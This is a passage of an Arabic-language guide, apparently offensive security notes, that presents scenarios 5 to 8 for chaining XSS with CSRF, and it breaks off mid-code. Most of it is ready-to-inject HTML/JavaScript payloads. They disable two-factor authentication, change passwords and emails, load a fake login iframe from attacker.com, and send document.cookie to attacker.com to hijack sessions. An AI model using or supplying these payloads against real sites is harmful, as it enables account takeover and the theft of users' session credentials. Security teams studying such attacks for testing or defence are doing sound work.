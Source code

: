 #### **سيناريو 5: تعطيل المصادقة الثنائية (2FA)**
- **الوصف**: موقع بيسمح بتعطيل 2FA بطلب POST، وفيه XSS.
- **الاستغلال**:
  - حقن كود:
    ```html
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open('POST', '/disable-2fa', true);
      xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr.send('disable=true');
    </script>
    ```
  - بعد تعطيل 2FA، نفّذ طلب CSRF لتغيير الباسوورد.

#### **سيناريو 6: سرقة Cookies**
- **الوصف**: XSS بتخليك تسرق Cookies الجلسة.
- **الاستغلال**:
  - حقن كود:
    ```html
    <img src=x onerror="fetch('https://attacker.com/steal?cookies='+encodeURIComponent(document.cookie))">
    ```
  - استخدم الـ Cookies للسيطرة على الجلسة، ثم نفّذ طلبات CSRF.

#### **سيناريو 7: دمج مع Phishing**
- **الوصف**: استخدام XSS لتحميل صفحة مزيفة تنفذ CSRF.
- **الاستغلال**:
  - حقن كود يعرض إطار (iframe) مزيف:
    ```html
    <iframe src="https://attacker.com/fake-login" style="width:100%;height:100%"></iframe>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open('POST', '/change-password', true);
      xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr.send('new_password=attacker123');
    </script>
    ```
  - الإطار هيخدّع الضحية، والكود هينفذ CSRF.

#### **سيناريو 8: تنفيذ سلسلة طلبات**
- **الوصف**: XSS بتخليك تنفذ أكتر من طلب CSRF لتدمير الحساب.
- **الاستغلال**:
  - حقن كود:
    ```html
    <script>
      // تغيير الإيميل
      var xhr1 = new XMLHttpRequest();
      xhr1.open('POST', '/update-email', true);
      xhr1.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr1.send('email=attacker@example.com');

      // تعطيل 2FA
      var xhr2 = new XMLHttpRequest();
      xhr2.open('POST', '/disable-2fa', true);
      xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr2.send('disable=true');
